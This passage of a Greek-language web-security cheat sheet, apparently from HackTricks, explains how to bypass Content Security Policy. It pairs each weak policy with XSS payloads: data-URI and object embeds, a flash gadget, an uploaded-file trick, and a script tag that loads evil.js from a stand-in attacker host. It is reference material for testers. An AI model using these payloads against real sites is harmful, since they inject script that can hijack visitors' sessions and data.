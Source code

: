 ### 'unsafe-eval'

{% hint style="danger" %}
Αυτό δεν λειτουργεί, για περισσότερες πληροφορίες [**ελέγξτε αυτό**](https://github.com/HackTricks-wiki/hacktricks/issues/653).
{% endhint %}
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
Λειτουργικό φορτίο:
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
### strict-dynamic

Αν μπορείτε με κάποιον τρόπο να κάνετε έναν **επιτρεπόμενο κώδικα JS να δημιουργήσει ένα νέο ετικέτα script** στο DOM με τον κώδικά σας, επειδή ένας επιτρεπόμενος κώδικας δημιουργεί αυτό, το **νέο ετικέτα script θα επιτραπεί να εκτελεστεί**.

### Wildcard (\*)
```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
Λειτουργικό φορτίο:
```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
### Έλλειψη object-src και default-src

{% hint style="danger" %}
**Φαίνεται ότι αυτό πλέον δεν λειτουργεί**
{% endhint %}
```yaml
Content-Security-Policy: script-src 'self' ;
```
Λειτουργικά φορτία:
```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
### Μεταφόρτωση Αρχείου + 'self'
```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```
Εάν μπορείτε να μεταφορτώσετε ένα αρχείο JS, μπορείτε να παρακάμψετε αυτό το CSP:

Λειτουργικό φορτίο:
```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
Ωστόσο, είναι πολύ πιθανό ότι ο διακομιστής επικυρώνει το ανεβασμένο αρχείο και θα σας επιτρέψει μόνο να ανεβάσετε συγκεκριμένου τύπου αρχεία.
